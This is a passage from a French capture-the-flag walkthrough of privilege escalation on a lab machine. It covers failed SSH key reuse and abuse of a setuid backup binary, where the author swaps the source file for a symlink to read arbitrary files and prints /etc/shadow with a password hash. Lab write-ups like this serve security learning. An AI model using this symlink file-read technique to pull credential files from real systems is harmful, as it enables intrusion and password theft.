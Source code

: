 On peut normalement se connecter au compte d'al1ce avec la clé SSH de b0b :  

```bash
b0b@C0m80:/home$ cat al1ce/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC--- snip nevermind ---tB9qKxMKM3x b0b@C0m80
```

Mais même après avoir recopié un client SSH (puisqu’il a été supprimé ici) pris sur une Ubuntu 32bits on obtient un message d'erreur :  

```plain
Agent admitted failure to sign using the key.
```

Et après quelques recherches si on essaye de bypasser ça avec la commande suivante :  

```plain
SSH_AUTH_SOCK=0 ./ssh -p 65122 al1ce@localhost
```

La passphrase de b0b pour la clé SSH est demandée...  

J'ai compris plus tard (voir plus loin) qu'un pass-manager graphique est défini pour la saisie de la pass-phrase ce qui explique le premier message d'erreur depuis notre shell.  

La seconde commande désactive l'utilisation du pass-manager mais du coup il faut saisir la passphrase et aucun des passwords à notre disposition ne fait l'affaire.  

On trouve un script intéressant dans le dossier d'*al1ce* :  

```bash
#!/bin/bash
# I wrote a quick tool for you bob
# this will backup the ftp app file to the net share
makebkp
```

Cela fait référence à un binaire setuid :  

```plain
---S--S--x 1 root backup 7382 Sep 23 01:54 /usr/local/bin/makebkp
```

Comme on s'y attend c'est ce programme qui fait un xxd de */ftpsvr/bestFTPserver.exe* et stocke le résultat dans *ftp104.bkp*.  

Comme on a les droits sur */ftpsvr* on peut supprimer *bestFTPserver.exe* et le réutiliser comme lien symbolique vers un fichier quelconque du système, permettant ainsi d'obtenir son contenu, comme */etc/shadow* :  

```plain
root:*:17432:0:99999:7:::
b0b:$6$m67feRp8$mX2RwnX4Q2kB6bdsIbDHQiSnTkrEX3tGRd2qvoys03fyxcJ1022Gzedx0Atj3hhFxcBX.w43tSEUQ6oZZQZQ2.:17432:0:99999:7:::
al1ce:!:17431:0:99999:7:::
```

L'auteur du CTF a pensé à tout :p   

J'ai tenté d'exploiter par différents moyens l'appel à xxd sans résultats.  

Dans le */home* de *b0b* on peut trouver un profil Firefox.  
